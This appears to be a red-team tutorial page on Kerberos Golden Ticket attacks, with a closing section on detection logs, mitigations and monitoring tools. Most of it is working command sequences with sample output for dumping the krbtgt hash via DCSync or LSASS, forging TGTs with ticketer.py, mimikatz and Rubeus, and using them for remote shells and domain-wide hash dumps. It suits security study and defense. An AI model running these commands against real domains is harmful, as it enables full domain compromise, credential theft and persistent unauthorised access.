

## What Is a Golden Ticket?

A Golden Ticket is a forged TGT ([Ticket Granting Ticket](/docs/kerberos/tickets/)) signed with the `krbtgt` account's hash. The `krbtgt` account is a special built-in account on every domain controller — its key is what the KDC uses to sign and verify every TGT in the domain. If you have that key, you can sign anything you want, and the KDC will accept it as legitimate.

With a Golden Ticket you can:
- Impersonate **any user** in the domain, including users that don't exist
- Add yourself to **any group** (Domain Admins, Enterprise Admins, Schema Admins)
- Request service tickets for **any service** in the domain
- Maintain access **even after the impersonated account's password is changed**

The price is that Golden Tickets require DC-level compromise to obtain the `krbtgt` hash. But once you have it, you effectively own the domain for as long as that hash is valid.

## How Does a Golden Ticket Attack Work?

Unlike a [Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/) (which bypasses the KDC entirely), a Golden Ticket still interacts with the KDC — but the KDC can't tell it was forged.

Here's why: the KDC validates a TGT by decrypting it with the `krbtgt` key. If it decrypts correctly, the KDC trusts everything inside — the username, the group memberships, the PAC. It has no way to check whether the TGT was legitimately issued by its own AS service (AS = Authentication Service — the part of the KDC that handles initial login and issues TGTs) or forged by an attacker who already had the key.



The KDC issues a **real, legitimately signed Service Ticket** in response. From the service's perspective, everything looks completely normal.

## What Does a Golden Ticket Attack Require?

- **`krbtgt` NTLM hash or AES256 key** — the key belonging to the `krbtgt` account on the target domain. This account exists only on domain controllers and requires DC-level compromise to extract. The `krbtgt` account password almost never changes, making this hash extremely durable.
- **Domain SID** — same as Silver Ticket: the `S-1-5-21-<three numbers>` identifier for the domain.
- **Domain name** — the FQDN (Fully Qualified Domain Name — the complete domain address including all its parts, like `radiant.local` or `internal.company.com`) of the target domain.
- **Username to impersonate** — freely chosen. Does not have to exist. Most attackers use `Administrator`.

No [SPN](/docs/kerberos/kerberoast/) is needed — the Golden Ticket is a TGT, not a Service Ticket. The KDC will hand out service tickets for any service once you present it.

## Getting the krbtgt Hash

The `krbtgt` hash lives on domain controllers. You need either local access to a DC or domain admin credentials to extract it.


  
**DCSync** is the cleanest method. Instead of logging into the DC and [dumping LSASS](/docs/redteam/credential-dumping/), DCSync uses a legitimate AD replication protocol to ask the DC to "sync" a specific account's credentials to you — just like another domain controller would request. This works remotely from any machine on the network as long as you have domain admin credentials.

```bash
secretsdump.py -just-dc-user krbtgt radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
 (NTDS.DIT is the Active Directory database file stored on every DC — it holds all account data including password hashes)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:61a35e4c08e5b5cdbe6990dce99ef66a...
krbtgt:aes128-cts-hmac-sha1-96:a6f4b7c903d5a2a0...
krbtgt:des-cbc-md5:...
```

The NTLM hash is the last value before `:::` on the first line. The AES256 key is on the second line.

To dump all domain credentials at once (not just krbtgt):

```bash
secretsdump.py radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local
```

**Getting the domain SID** — use `getPac.py` (fetches the PAC for any domain user; the domain SID is embedded inside it) or `lookupsid.py` (queries the DC directly for the domain SID):

```bash
lookupsid.py radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local 0
```

```
[*] Domain SID is: S-1-5-21-3623811015-3361044348-30300820
```
  
  
**DCSync via mimikatz** replicates the same protocol remotely without touching LSASS on the DC. Run this from any machine with domain admin credentials — you don't need to be on the DC itself.

```powershell
lsadump::dcsync /domain:radiant.local /user:krbtgt
```

``` {linenos=table}
[DC] 'radiant.local' will be the domain
[DC] 'dc01.radiant.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
 (ACCOUNTDISABLE is expected — krbtgt is intentionally disabled to prevent anyone from logging in as it directly. The KDC still uses its keys internally to sign tickets; the disabled flag only blocks interactive logon.)
Account expiration   :
Password last change : 1/1/2024 8:00:00 AM
Object Security ID   : S-1-5-21-3623811015-3361044348-30300820-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 819af826bb148e603acb0f33d17632f8
     ntlm- 0: 819af826bb148e603acb0f33d17632f8
     lm  - 0: ...

Supplemental Credentials:
  AES256 HMAC: 61a35e4c08e5b5cdbe6990dce99ef66a...
  AES128 HMAC: a6f4b7c903d5a2a0...
```

Copy `Hash NTLM` for RC4, or `AES256 HMAC` for AES.

Alternatively, if you have a shell on the DC itself, dump LSASS directly. The `/patch` flag temporarily patches LSASS in memory to bypass protections that normally block credential reads — it is more invasive than DCSync and more likely to trigger [EDR](/docs/redteam/defender-bypass/) alerts:

```powershell
privilege::debug
lsadump::lsa /patch
```

```
Domain : RADIANT / S-1-5-21-3623811015-3361044348-30300820

RID  : 00000502 (502)
User : krbtgt
LM   :
NTLM : 819af826bb148e603acb0f33d17632f8
```

**Getting the domain SID** — visible in the DCSync output as `Object Security ID` (strip the `-502` RID at the end), or run `whoami /user` from any domain account and strip the trailing RID.
  


## Forging the Ticket

With the `krbtgt` hash and domain SID, forge the TGT offline. No network contact needed.


  
`ticketer.py` without the `-spn` flag produces a TGT instead of a Service Ticket. When no SPN is given, it automatically targets `krbtgt/radiant.local` — the internal SPN the KDC uses to identify itself as the ticket-issuing service. The `\` at the end of each line is bash's line continuation character (the same idea as PowerShell's backtick) — the entire block is one command split across multiple lines for readability.

```bash
ticketer.py \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  Administrator
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for radiant.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

To forge with AES256 instead of RC4:

```bash
ticketer.py \
  -aesKey 61a35e4c08e5b5cdbe6990dce99ef66a... \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  Administrator
```

To forge with extra group memberships (adds the ticket holder to Domain Admins, Enterprise Admins, and Schema Admins):

```bash
ticketer.py \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -groups 512,519,518,520,513 \
  Administrator
```

The numbers are group RIDs (the numeric part of a group's SID): `512` = Domain Admins, `519` = Enterprise Admins, `518` = Schema Admins, `520` = Group Policy Creator Owners, `513` = Domain Users.
  
  
**mimikatz** `kerberos::golden` without `/service` and `/target` flags produces a TGT. The backtick `` ` `` at the end of each line is PowerShell's line continuation character — it lets you split one long command across multiple lines for readability. The whole block runs as a single command:

```powershell
kerberos::golden `
  /user:Administrator `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /krbtgt:819af826bb148e603acb0f33d17632f8 `
  /ptt
```

``` {linenos=table}
User      : Administrator
Domain    : radiant.local (RADIANT)
SID       : S-1-5-21-3623811015-3361044348-30300820
User Id   : 500   (500 is the fixed RID for the built-in Administrator account in every Windows domain)
Groups Id : *513 512 520 518 519
KrbtgtKey : 819af826bb148e603acb0f33d17632f8 - rc4_hmac_nt
Lifetime  : 3/11/2026 9:00:00 ; 3/18/2026 9:00:00 ; 3/18/2036 9:00:00
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ radiant.local' successfully submitted for current session
```

Notice `Lifetime` — the third date is 10 years out. mimikatz sets a 10-year renewal window by default.

To use AES256:

```powershell
kerberos::golden `
  /user:Administrator `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /aes256:61a35e4c08e5b5cdbe6990dce99ef66a... `
  /ptt
```

**Rubeus** with the `golden` action:

```powershell
.\Rubeus.exe golden `
  /rc4:819af826bb148e603acb0f33d17632f8 `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /user:Administrator `
  /ptt
```

``` {linenos=table}
[*] Action: Build Golden Ticket

[*] Building PAC

[*] Domain         : RADIANT.LOCAL (RADIANT)
[*] SID            : S-1-5-21-3623811015-3361044348-30300820
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] KrbKey         : 819AF826BB148E603ACB0F33D17632F8
[*] KrbKeyType     : rc4_hmac

[*] Forging Kerberos ticket...
[+] Ticket successfully forged!
[*] Ticket added to store for user 'Administrator'
```
  


## Using the Ticket


  
Point `KRB5CCNAME` at the forged TGT. Impacket will present it to the KDC's TGS service to get real service tickets on demand.

```bash
export KRB5CCNAME=/tmp/Administrator.ccache
```

Access any service using `-k -no-pass`:

```bash {linenos=table}
# Remote shell via SMB
psexec.py radiant.local/Administrator@dc01.radiant.local -k -no-pass

# File shares
smbclient.py radiant.local/Administrator@fileserver.radiant.local -k -no-pass

# Dump all domain hashes
secretsdump.py radiant.local/Administrator@dc01.radiant.local -k -no-pass

# WMI execution
wmiexec.py radiant.local/Administrator@target.radiant.local -k -no-pass
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on dc01.radiant.local.....
[*] Found writable share ADMIN$
[*] Uploading file xKcbPqRm.exe
[*] Opening SVCManager on dc01.radiant.local.....
[*] Creating service on dc01.radiant.local.....
[*] Starting service.....
Microsoft Windows [Version 10.0.20348.2340]

C:\Windows\system32>whoami
radiant\administrator
```
  
  
If you used `/ptt` during forging, the ticket is already injected. Access any resource on the domain directly:

```powershell
# Access domain controller shares
# C$ is a hidden Windows administrative share that exposes the entire C: drive —
# automatically created on every Windows machine, only accessible to administrators
dir \\dc01.radiant.local\C$
```

```
 Volume in drive \\dc01.radiant.local\C$ has no label.

 Directory of \\dc01.radiant.local\C$

11/03/2026  09:15    <DIR>          inetpub
11/03/2026  09:15    <DIR>          PerfLogs
11/03/2026  09:15    <DIR>          Program Files
11/03/2026  09:15    <DIR>          Windows
```

```powershell
# Remote PowerShell to any host
# Enter-PSSession opens an interactive PowerShell shell on the remote machine,
# similar to SSH — authenticated using the injected Kerberos ticket
Enter-PSSession -ComputerName dc01.radiant.local
```

If you saved the ticket to disk, inject it first:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\golden.kirbi
```

The Golden Ticket works domain-wide. Any `\\hostname\share`, any `Enter-PSSession`, any WMI connection will automatically request a service ticket using the forged TGT and authenticate as Administrator.
  


## Verification


  
```bash
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/18/2036 09:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
```

The service principal is `krbtgt/RADIANT.LOCAL` — this is the TGT. The expiry is 10 years out, confirming it's forged. A legitimate TGT expires in 10 hours.

After accessing a service, a real service ticket appears alongside it:

```
03/11/2026 09:01:00  03/18/2026 09:00:00  cifs/dc01.radiant.local@RADIANT.LOCAL
```

The service ticket has a normal 10-hour lifetime — it was legitimately issued by the KDC in response to your forged TGT.
  
  
```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: krbtgt/RADIANT.LOCAL @ RADIANT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/11/2026 9:00:00 (local)
        End Time:   3/18/2026 9:00:00 (local)
        Renew Time: 3/18/2036 9:00:00 (local)
```

`Server: krbtgt/RADIANT.LOCAL` confirms this is a TGT. `Renew Time` is 10 years out — the hallmark of a Golden Ticket. A legitimate TGT has a renew time of 7 days.
  


## Operational Notes

**Survives user password resets.** The forged TGT is signed by `krbtgt`, not by the impersonated user's key. Resetting Administrator's password does nothing to invalidate the ticket. The only way to break a Golden Ticket is to change the `krbtgt` password.

**`krbtgt` must be rotated twice.** When a domain resets the `krbtgt` password, AD keeps the previous password cached to allow in-flight tickets to expire gracefully — "in-flight" meaning legitimate tickets that were already issued to real users before the rotation and are still within their 10-hour window. A ticket signed with the old key remains valid until the second rotation removes that cached copy. If an attacker has the hash, a single rotation isn't enough — two rotations in succession (typically 10 hours apart to allow legitimate tickets to expire) are required to fully invalidate all forged tickets.

**Arbitrary group injection.** The forged PAC can claim membership in any group. You can include Enterprise Admins (`519`) and Schema Admins (`518`) even if the impersonated account was never in those groups in real life. The KDC issues service tickets that carry those group memberships, and services grant privileges based on them.

**RC4 vs AES.** Same tradeoffs as Silver Ticket: RC4 is derived directly from the NTLM hash, AES requires the actual AES key from `sekurlsa::ekeys`. AES tickets are less likely to trigger RC4 downgrade detection in hardened environments.

**Non-existent users work.** You can forge a ticket for a username that has never existed in the domain. The KDC does not validate whether the user in the TGT is a real account — it only validates the signature. This is useful for creating persistent access that is harder to tie to a known account.

## How Do You Detect and Defend Against Golden Tickets?

### What Logs Does a Golden Ticket Generate?

- **Event ID 4769** at the DC — the Golden Ticket is presented to the TGS, which issues real service tickets. Each TGS-REQ generates a 4769. The source IP will be the attacker's machine, which may not match where Administrator normally authenticates from.
- **Event ID 4624 / 4627** at target service hosts — network logon events for the impersonated user.
- **Event ID 4662** at the DC — DCSync triggers directory service access events. Each attribute the attacker replicates (including `krbtgt`'s credentials) fires a 4662 with the specific attribute GUID.
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** on the DC — if the hash was extracted via LSASS rather than DCSync, LSASS process access is logged.

### What Logs Does a Golden Ticket Not Generate?

- **NO Event ID 4768** — no AS-REQ was sent. The TGT was forged offline; the KDC's AS service never issued it. A real logon always produces a 4768 first.
- **The forging step is fully offline** — running `ticketer.py` or `kerberos::golden` produces no network traffic and no logs.
- Unlike a Silver Ticket, a Golden Ticket **does** generate 4769 events (because it contacts the TGS for service tickets), but those events look like normal authenticated requests — the forgery is invisible at the protocol level.

The most reliable anomaly signal is a TGS-REQ (4769) with no preceding AS-REQ (4768) for the same account in the same logon session — the "impossible session" pattern.

### How Do You Mitigate Golden Tickets?

- **Protect domain controllers** — the `krbtgt` hash is only obtainable from a DC. Restricting which accounts have DC logon rights and using Privileged Access Workstations (PAW — dedicated hardened machines used only for administrative tasks, never for email or web browsing, so a compromised browser or phishing email can't pivot to DC-level credentials) limits who can ever reach the hash.
- **Rotate `krbtgt` password twice** — invalidates all forged TGTs. Must be done in two passes (separated by the maximum ticket lifetime, typically 10 hours) because AD caches the previous `krbtgt` password to avoid breaking in-flight tickets.
- **Monitor DCSync (Event ID 4662)** — any non-DC account performing replication requests is highly suspicious. DCSync works by abusing the `DS-Replication-Get-Changes-All` privilege — an Active Directory permission that controls which accounts can request credential replication from a DC. Only domain controllers should have it. In a healthy environment, only DC machine accounts replicate; a user account doing it is a red flag.
- **Enforce AES-only Kerberos** — disabling RC4 forces forgers to obtain the AES key rather than the more accessible NTLM hash. Raises the bar without fully preventing the attack.
- **Credential Guard** on domain controllers — protects LSASS from direct memory reads, blocking LSASS-based `krbtgt` hash extraction.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a dedicated Golden Ticket alert. It detects tickets with abnormal lifetimes, encryption downgrade patterns, and TGS requests with no matching AS exchange. One of MDI's most reliable detections.
- **Microsoft Sentinel / Splunk** — correlate Event ID 4769 against 4768: flag any 4769 for an account where no 4768 exists within the expected session window. `LogonGuid` is a field present in both 4768 and 4769 events that links a service ticket request back to the TGT request that authorized it — if there's no matching 4768 `LogonGuid`, the session has no legitimate origin. Also alert on 4662 events where `SubjectUserName` is not a known DC machine account.
- **Sysmon** — Event ID 10 on DC LSASS, and Event ID 17/18 (named pipe access) for DCSync-related RPC calls.
- **Zeek / network monitoring** — DCSync produces distinctive DRSUAPI (Directory Replication Service Remote Protocol API — the protocol AD uses internally for DC-to-DC credential sync) traffic on the wire. Specifically, it calls `DsGetNCChanges`, the RPC function that requests a batch of credential objects from a DC. Zeek scripts can detect these calls originating from non-DC IP addresses and fire an alert before any ticket is ever forged.
- **CrowdStrike / EDR** — behavioral detection on `lsadump::dcsync` patterns and mimikatz signatures. Most EDR platforms have specific rules for DCSync and Golden Ticket forging commands.

## References

### Original Research
- Benjamin Delpy (gentilkiwi) — "Golden Ticket" technique, introduced in mimikatz (2014); `kerberos::golden` and `lsadump::dcsync` commands
- Sean Metcalf — Active Directory security research on `krbtgt` abuse and Golden Ticket persistence, adsecurity.org
- Benjamin Delpy & Vincent Le Toux — DCSync (`lsadump::dcsync`) implementation in mimikatz, enabling remote `krbtgt` hash extraction without touching LSASS on the DC

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts for network protocols, including `secretsdump.py` (DCSync / krbtgt extraction) and `ticketer.py` (Golden Ticket forging)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`golden` action)
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool (`kerberos::golden`, `lsadump::dcsync`, `lsadump::lsa`)

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-PAC — Privilege Attribute Certificate Data Structure](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/)
- [MS-KILE — Kerberos Protocol Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
